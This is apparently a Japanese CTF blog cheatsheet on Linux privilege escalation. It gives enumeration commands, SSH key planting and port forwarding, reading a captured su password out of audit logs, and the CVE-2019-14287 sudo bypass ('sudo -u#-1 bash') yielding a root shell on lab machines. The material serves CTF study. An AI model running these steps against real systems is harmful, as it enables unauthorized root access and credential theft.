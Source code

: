 ```yaml
---
layout: post
title: Linuxの特権昇格
published : true
tags: CTF Common cheatsheet linux 特権昇格 Privesc "privilage escaration"
---
```

## 列挙
### SUID
```sh
find / -perm -4000 2>/dev/null
```

### sudo
```sh
sudo -l
```

### プロセス
```sh
ps awxww
```

### サービス
```sh
ss -antul
```

### apache2 config
```
/etc/apache2/sites-enabled
```

## ssh-keygen プロンプトなし。(RCEでリモートマシン上にssh-keygenするときに使う)
```sh
ssh-keygen -t rsa -f /home/matt/.ssh/id_rsa'
```

## SSH port forwerding
```sh
ssh daniel@panda.htb -L 9999:localhost:80
```

## cron
```sh
cat /etc/cron.d/*
```
and
```sh
cat /var/spool/cron/crontabs/*                cat: '/var/spool/cron/crontabs/*': Permission denied
```

## 監査ログ
- ユーザがadmグループにいるとき、監査ログが確認できる。その他/ver/logの確認も。

```sh
cry0l1t3@academy:/$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

cry0l1t3@academy:/$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs:
/var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/2020 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
```

## sudo
sudo 1.8.28 より前のバージョンでは、CVE-2019-14287を適用できる場合がある。[JPCERT](https://www.jpcert.or.jp/newsflash/2019101601.html)
```sh
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
hugo@blunder:~$ sudo -u#-1 bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```